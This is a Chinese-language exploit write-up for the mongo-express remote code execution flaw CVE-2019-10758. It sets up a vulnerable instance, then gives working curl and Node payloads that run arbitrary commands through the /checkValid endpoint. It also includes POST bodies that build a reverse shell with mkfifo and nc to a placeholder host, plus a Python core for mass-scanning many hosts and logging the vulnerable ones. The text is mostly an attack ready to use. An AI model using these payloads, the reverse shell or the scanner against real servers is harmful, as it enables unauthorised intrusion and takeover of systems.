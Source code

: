 （CVE-2019-10758）Mongo expres rce
==================================

一、漏洞简介
------------

漏洞问题出在lib/bson.js中的toBSON()函数中，路由 /checkValid
从外部接收输入，并调用了存在 RCE
漏洞的代码，由此存在被攻击的风险，可在服务器上进行任意命令执行。

二、漏洞影响
------------

mongo-express \< 0.54.0

三、复现过程
------------

https://github.com/ianxtianxt/CVE-2019-10758

#### 安装环境

    docker run -p 27017:27017 -d mongo
    npm install mongo-express@0.53.0 
    cd node_modules/mongo-express/ && node app.js

#### cURL exploit

    curl 'http://www.0-sec.org:8081/checkValid' -H 'Authorization: Basic YWRtaW46cGFzcw=='  --data 'document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("/Applications/Calculator.app/Contents/MacOS/Calculator")'

![](resource/(CVE-2019-10758)Mongoexpresrce/media/rId26.png)

    curl 'http://www.0-sec.org:8081/checkValid' -H 'Authorization: Basic YWRtaW46cGFzcw==' --data 'document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("echo Str1am > file.txt")'

![](resource/(CVE-2019-10758)Mongoexpresrce/media/rId27.png)

#### Script exploit

    node main.js

#### main.js

    exploit = "this.constructor.constructor(\"return process\")().mainModule.require('child_process').execSync('/Applications/Calculator.app/Contents/MacOS/Calculator')"

    var bson = require('mongo-express/lib/bson')
    bson.toBSON(exploit)

### 补充

> mongo-express远程代码执行，反弹shell代码如下：

#### POST BODY 1:

    document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("mkfifo /tmp/f")

#### POST BODY 2：

    document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("cat /tmp/f | /bin/sh -i 2>%261 | nc x.x.x.x 666 >/tmp/f")

### 批量监测脚本【只放核心代码】

    payload = r'document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("echo 111111")'

    def http_request(url,path_out):
        try:
            print("Trying:" + url + ' ' + '[' + str(left) + '/' + str(countLines) + ']')
            vulurl = url + "/checkValid"
            r = requests.post(url=vulurl, headers=headers, data=payload, timeout=10, verify= False)
            if r.status_code == 200 and 'Valid' in r.text:
                print("\033[1;40;32m'Good Found!' {}\033[0m".format(vulurl))
                #printGreen("[+]" + url)
                with open(path_out,'a') as f:
                    f.write(vulurl + '\n')
            else:
                print("[-]" + "r.status_code:" + str(r.status_code) + "," + "raise.text:" + r.text)
        except Exception as err:
            print(err)
